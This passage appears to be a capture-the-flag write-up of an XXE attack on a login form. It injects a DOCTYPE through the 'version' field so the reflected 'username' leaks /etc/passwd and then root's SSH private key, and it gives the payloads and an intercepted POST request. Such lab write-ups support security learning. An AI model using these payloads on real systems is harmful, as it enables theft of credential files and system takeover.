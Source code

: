 ```xml
<root>
    <data>
        <username>a</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

We should notice two things: there is a `is_admin` property and the `username` property seems to be the one that is reflected on the website. The `is_admin` property is a dead end, changing it to 1 doesn't actually do anything, so let's attempt some XXE (XML External Entity). It appears that the version number in our `POST` request is the one that appears in the XML. I will be basing our payload on a XXE template from PayloadAllTheThings.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
 
```

In this template the variable `example` is the return value of a System read of the file `/etc/passwd` When this result is actually printed out , instead of John's last name, the contents of `/etc/passwd` are there. Given that this website is running as root, we essentially have root file read. Considering how chiv had a SSH key, I will try to read root's SSH key if it has one. Since `username` is the value being reflected to us, we should aim to set `username` to the contents of the key. Our XML should look like this

```xml
<!-- API Version 1.0.0 --> <!DOCTYPE root [<!ENTITY a SYSTEM 'file:///root/.ssh/id_rsa'>]> <!-- -->
<root>
    <data>
        <username>&a;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

To achieve this, we have to remember our 2 `POST` request values, `username`, and `version`. `version` is on the first line and gets closed by a comment by the server. So we have to prematurely close the comment in our `version` input, then insert the call to the SSH key, then reopen a comment for the system to automatically close it. Regarding `username`, all it has to be is a reference to the call to the SSH key, which is assigned to the variable `a`, so `username` would be `&a;`. Load up Burp, access the login page (make sure you logout of the website in case you already logged in before, so the cookies don't get messy), and intercept the login `POST` request. Configure it to look like this:

```http
username=&a;
version=1.0.0 --> <!DOCTYPE root [<!ENTITY a SYSTEM 'file:///root/.ssh/id_rsa'>]> <!-- 
--------------------------------------------------POST REQUEST-----------------------------------------------------
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Length: 109
Cache-Control: max-age=0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
```